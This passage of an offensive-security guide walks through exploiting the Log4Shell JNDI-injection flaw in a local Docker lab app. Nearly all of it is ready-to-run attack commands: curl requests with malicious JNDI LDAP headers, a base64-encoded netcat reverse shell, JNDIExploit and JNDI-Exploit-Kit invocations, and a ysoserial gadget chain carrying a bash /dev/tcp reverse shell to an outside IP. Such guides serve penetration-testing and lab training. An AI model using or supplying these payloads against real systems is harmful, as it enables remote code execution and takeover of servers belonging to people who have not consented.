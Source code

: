 So, in our example, we already have that docker vulnerable app running. To attack it:

```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```

When sending the attacks you will see some output in the terminal where you executed **JNDIExploit-1.2-SNAPSHOT.jar**.

**Remember to check `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` for other exploitation options. Moreover, in case you need it, you can change the port of the LDAP and HTTP servers.**

### RCE - JNDI-Exploit-Kit <a href="#rce__jndiexploitkit_33" id="rce__jndiexploitkit_33"></a>

In a similar way to the previous exploit, you can try to use [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) to exploit this vulnerability.\
You can generate the URLs to send to the victim running:

```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```

_This attack using a custom generated java object will work in labs like the **THM solar room**. However, this won’t generally work (as by default Java is not configured to load remote codebase using LDAP) I think because it’s not abusing a trusted class to execute arbitrary code._

### RCE - ysoserial & JNDI-Exploit-Kit

This option is really useful to attack **Java versions configured to only trust specified classes and not everyone**. Therefore, **ysoserial** will be used to generate **serializations of trusted classes** that can be used as gadgets to **execute arbitrary code** (_the trusted class abused by ysoserial must be used by the victim java program in order for the exploit to work_).

Using **ysoserial** or [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified) you can create the deserialization exploit that will be downloaded by JNDI:

```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```
